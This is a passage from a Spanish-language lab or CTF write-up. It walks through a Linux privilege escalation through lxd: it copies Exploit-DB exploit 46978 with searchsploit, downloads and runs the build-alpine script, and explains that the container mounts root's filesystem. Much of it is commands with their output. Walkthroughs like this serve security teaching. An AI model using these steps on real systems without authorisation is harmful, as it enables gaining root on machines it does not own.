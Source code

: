 Tenemos uno, vamos a copiarlo primero:
```bash
searchsploit -m linux/local/46978.sh
  Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable
```
Y vamos a analizarlo.

Por lo que entiendo, el Exploit va a crear un contenedor en el que se va a montar el sistema de archivos del usuario root dentro de la máquina víctima, en el que podremos navegar entrando al directorio **/mnt/root** convirtiendonos en root dentro del contenedor.

Para que funcione este Exploit, debemos descargar y ejecutar un archivo llamado **build-alpine** y luego, subir tanto el Exploit como el archivo generado del **build-alpine** hacia la máquina víctima. 

¿Qué es **Alpine**?

| **Alpine Linux** |
|:-----------:|
| *Alpine Linux es una distribución Linux basada en musl y BusyBox, que tiene como objetivo ser ligera y segura por defecto sin dejar de ser útil para tareas de propósito general. A pesar de estar diseñada para ejecutarse en memoria RAM también es recomendable y perfectamente funcional en ordenadores personales y servidores. En su página web oficial se encuentran diferentes manuales (howto) para realizar la instalación (live en RAM, sys en disco, etc).* |

<br>

Hagámoslo por pasos:

* Descarga el archivo **build-alpine**:
```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2023-05-12 16:59:45--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com) ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 8060 (7.9K) [text/plain]
Grabando a: «build-alpine»
build-alpine                      100%[==============================================>]   7.87K  --.-KB/s    en 0s      
2023-05-12 16:59:45 (15.8 MB/s) - «build-alpine» guardado [8060/8060]
```

* Ejecuta el archivo **build-alpine**:
```bash
bash build-alpine             
Determining the latest release... v3.18
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.18/main/x86_64
Downloading alpine-keys-2.4-r1.apk
...
...
...
```
